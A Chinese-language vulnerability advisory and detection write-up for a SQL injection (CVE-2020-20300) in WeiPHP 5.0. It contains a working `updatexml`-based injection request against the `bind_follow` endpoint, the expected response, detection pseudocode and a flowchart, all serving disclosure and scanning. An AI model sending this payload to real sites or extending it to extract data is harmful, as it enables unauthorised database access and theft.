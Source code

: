 # WeiPHP 5.0 SQL 注入漏洞（CVE-2020-20300）

## 漏洞简介
WeiPHP 5.0 存在 SQL 注入漏洞，攻击者可通过对 `wp_where` 函数的恶意利用，构造特定请求执行任意 SQL 语句，进而获取敏感信息、篡改数据，甚至实现未授权的管理操作。

## 影响范围
- 受影响产品：WeiPHP 5.0
- CPE: `cpe:2.3:a:weiphp:weiphp:5.0:*:*:*:*:*:*:*`

## 漏洞原理
漏洞源于后端对用户输入未做有效过滤，`wp_where` 函数在处理参数时直接拼接到 SQL 语句，导致攻击者可注入恶意 SQL 片段。

## 利用方式与攻击流程
1. 攻击者向目标站点特定接口发送精心构造的 POST 请求，利用 `uid` 参数注入 SQL 语句。
2. 通过 `updatexml` 函数等手法，回显注入结果（如 MD5 哈希值），以确认漏洞存在。
3. 若验证成功，攻击者可进一步利用漏洞进行数据窃取、篡改等操作。

## 探测原理与流程
### 请求包示例
```http
POST /public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=) and updatexml(1,concat(0x7e,md5('999999'),0x7e),1)--+ HTTP/1.1
Host: target.com
Content-Length: 0
```

### 响应示例
```http
HTTP/1.1 500 Internal Server Error
...
52c69e3a57331081823331c4e69d3f2
```

### 判定逻辑
- 响应状态码为 500。
- 响应体中包含 `52c69e3a57331081823331c4e69d3f2`（即 `md5('999999')` 的值）。

### 伪代码
```python
send_post(
    url="/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=) and updatexml(1,concat(0x7e,md5('999999'),0x7e),1)--+",
    data=""
)
if response.status_code == 500 and "52c69e3a57331081823331c4e69d3f2" in response.text:
    print("存在 SQL 注入漏洞")
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[构造注入请求]
    B --> C[发送 POST 请求]
    C --> D{响应状态码是否为 500?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F{响应体是否包含 md5('999999')?}
    F -- 否 --> E
    F -- 是 --> G[存在 SQL 注入漏洞]
```

## 参考链接
- [WeiPHP SQL 注入分析与利用](https://github.com/Y4er/Y4er.com/blob/15f49973707f9d526a059470a074cb6e38a0e1ba/content/post/weiphp-exp-sql.md)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2020-20300)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon)
- [ARPSyndicate kenzer-templates](https://github.com/ARPSyndicate/kenzer-templates) 